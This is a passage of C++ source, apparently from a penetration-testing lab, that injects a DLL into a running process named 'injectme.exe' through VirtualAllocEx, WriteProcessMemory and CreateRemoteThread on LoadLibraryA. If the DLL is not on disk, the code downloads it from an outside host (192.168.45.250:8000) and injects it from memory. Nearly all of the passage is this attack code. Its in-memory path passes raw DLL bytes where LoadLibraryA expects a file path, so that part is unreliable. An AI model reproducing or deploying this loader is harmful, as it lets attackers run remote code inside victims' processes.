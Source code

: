 ```cpp
    LPVOID pDllBuffer = VirtualAllocEx(hProcess, NULL, bufferSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!pDllBuffer) {
        CloseHandle(hProcess);
        return false;
    }

    if (!WriteProcessMemory(hProcess, pDllBuffer, dllBuffer, bufferSize, NULL)) {
        VirtualFreeEx(hProcess, pDllBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }

    HMODULE hKernel32 = GetModuleHandleA("Kernel32");
    FARPROC pLoadLibrary = GetProcAddress(hKernel32, "LoadLibraryA");

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibrary, pDllBuffer, 0, NULL);
    if (!hThread) {
        VirtualFreeEx(hProcess, pDllBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }

    WaitForSingleObject(hThread, INFINITE);
    VirtualFreeEx(hProcess, pDllBuffer, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return true;
}

int main() {
    const char* processName = "injectme.exe";
    const char* dllPath = "C:\\Windows\\Tasks\\myinjection.dll";
    const char* url = "http://192.168.45.250:8000/myinjection.dll";

    while (true) {
        DWORD processId = FindProcessId(processName);
        if (processId != 0) {
            if (PathFileExistsA(dllPath)) {
                // Inject DLL from file
                if (InjectDLL(processId, dllPath)) {
                    std::cout << "Successfully injected DLL from file." << std::endl;
                } else {
                    std::cerr << "Failed to inject DLL from file." << std::endl;
                }
            } else {
                // Download DLL and inject from memory
                unsigned char* dllBuffer = nullptr;
                size_t bufferSize = 0;

                if (DownloadDLLFromURL(url, &dllBuffer, &bufferSize)) {
                    if (InjectDLLInMemory(processId, dllBuffer, bufferSize)) {
                        std::cout << "Successfully injected DLL from memory." << std::endl;
                    } else {
                        std::cerr << "Failed to inject DLL from memory." << std::endl;
                    }

                    free(dllBuffer);
                } else {
                    std::cerr << "Failed to download DLL." << std::endl;
                }
            }
```